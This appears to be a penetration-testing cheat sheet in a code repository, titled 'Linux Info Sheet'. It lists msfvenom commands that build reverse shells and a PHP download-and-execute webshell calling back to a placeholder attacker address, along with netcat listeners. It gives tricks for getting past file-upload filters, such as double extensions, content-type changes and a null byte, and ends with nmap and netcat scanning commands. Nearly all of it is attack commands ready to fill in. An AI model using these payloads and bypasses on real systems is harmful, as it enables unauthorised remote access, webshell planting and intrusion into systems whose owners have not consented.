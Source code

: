 # Linux Info Sheet

### Shellcode
```
# Binary
msfvenom -p linux/x86/shell_reverse_tcp LHOST=MYIPADDRESS LPORT=4444 -f elf -o shell.elf
nc -lvnp 4444

# Scripts
msfvenom -p cmd/unix/reverse_python LHOST=MYIPADDRESS LPORT=4444 -f raw -o shell.py
msfvenom -p cmd/unix/reverse_bash  LHOST=MYIPADDRESS LPORT=4444 -f raw -o shell.sh
msfvenom -p cmd/unix/reverse_perl  LHOST=MYIPADDRESS LPORT=4444 -f raw -o shell.pl
nc -lvnp 4444
```

### Webshells
```
# PHP Download Execute
msfvenom -p php/download_exec URL=http://MYIPADDRESS/shell.elf -f raw -o shell.php
msfvenom -p linux/x86/shell_reverse_tcp LHOST=MYIPADDRESS LPORT=443 -f elf > shell.elf
python -m SimpleHTTPServer 80
nc -lvnp 443

# PHP
msfvenom -p php/reverse_php LHOST=MYIPADDRESS LPORT=80 -f raw -o shell.php
*use meterpreter multihandler

Use burp when trying to upload files. Try shell.php.jpeg and change the content type, modify the upload name, or use a nullbyte
shell.php%00.jpeg
```

### Full TCP Scan
INSERTFULLTCPSCAN
```
nmap -sV -Pn -p1-65535 --max-retries 1 --max-scan-delay 10 --defeat-rst-ratelimit --open -T4 INSERTIPADDRESS
```
### Full UDP Scan
INSERTUDPSCAN
```
nmap -Pn -A -sC -sU -T 4 --top-ports 200 INSERTIPADDRESS
```
### Vuln Scan
INSERTVULNSCAN
```
nmap --script=vuln INSERTIPADDRESS
```
### Other scans
```
Always start with a stealthy scan to avoid closing ports.

# Syn-scan
nmap -sS INSERTIPADDRESS

# Connect to udp if one is open
nc -u INSERTIPADDRESS 48772

# Connect to tcp if one is open
nc -nv INSERTIPADDRESS 5472

```